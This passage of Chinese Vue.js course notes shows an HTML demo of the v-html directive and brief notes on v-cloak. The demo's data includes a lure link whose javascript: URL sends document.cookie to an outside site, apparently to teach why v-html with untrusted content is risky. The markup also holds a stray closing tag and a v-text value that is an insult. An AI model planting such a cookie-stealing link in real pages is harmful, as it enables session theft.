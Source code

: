 ```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
			<div v-html="str3"></div>
            <div v-text="王八蛋"></div>
                
            </div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
				str3:"<h1>hahahaha</h1>"
			}
		})
	</script>
</html>
```



## v-cloak指令

>v-cloak指令（没有值）：
>
>​            1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
>
>​            2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。



## v-once指令
